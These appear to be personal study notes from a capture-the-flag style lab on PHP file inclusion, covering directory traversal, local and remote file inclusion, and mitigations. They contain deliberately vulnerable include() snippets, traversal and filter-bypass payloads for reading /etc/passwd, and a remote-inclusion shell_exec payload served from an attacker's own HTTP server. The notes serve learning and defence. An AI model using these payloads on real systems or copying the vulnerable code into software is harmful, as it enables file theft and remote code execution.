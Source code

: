   - Directory Traversal: allows to read operating system resources
	- occures when user input is given to a function like file_get_contents, using a parameter
	- ex: http://webapp.thm/get.php?file=../../../../etc/passwd
## Local File Inclusion

- PHP: include, require, include_once, require_once: source of vulnerabilities
- Ex: below gets the language via url parameter to include the file of the lang
	- http://webapp.thm/index.php?lang=EN.php to get the file
	- if no input validation: can access any file on the server
			- ex: http://webapp.thm/get.php?file=/etc/passwd
```php
<?PHP 
	include($_GET["lang"]);
?>
```
- Other example:

```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```
Here:
- uses include, starting from languages folder
- juste has to go back up: http://webapp.thm/index.php?lang=../../../../etc/passwd

To perform blackbock testing: 
- look at error messages
- ex: 
```php
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
Here: can move but .php is removed from input

Solution: use NULL BYTE `%00`
inside function, should look like that: `include("languages/../../../../../etc/passwd%00").".php");`
which is equivalent to: `include("languages/../../../../../etc/passwd");`

Does not work for PHP >= 5.3.4

Other solution: `use /etc/passwd/.`

Other example:
New error message: 
```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```
=> replaces ../ by empty string
can try to send this: `....//....//....//....//....//etc/passwd`

Also possible that browser requires to give input folder like `languages/path/to/file`, just  have it in the argument and then travel to wanted file

## Remote File Inclusion

Allows to include remote files into a vulnerable app
Happens when input not properly sanatized => can inject external URL
Requires `allow_url_fopen` set to  `on`
Risk:
- Sensitive Information Disclosure
- Cross-site Scripting
- Denial of Service
### RFI Steps

![[Pasted image 20250403215615.png]]

Can setup server on personal machine using :
```python
python3 -m http.server
```

=>Allows to access files stored on local machine
=>Then, get ip on network, and pass link to reach php payload

Ex. of payload:

```
<?PHP echo shell_exec('hostname'); ?>
```

=> Command can be replaced by anything
## Things to do:

- Keep systems and service updated
- turn off PHP errors to prevent leaking path of the app or other info
- a Web application firewall ([[WAF]])
- disable some PHP features if not needed: `allow_url_fopen`, `allow_url_include`
- analyze web app to only allow protocols and wrappers that are needed
- never trust user input, implement proper input validation
- whitelisting and blacklisting
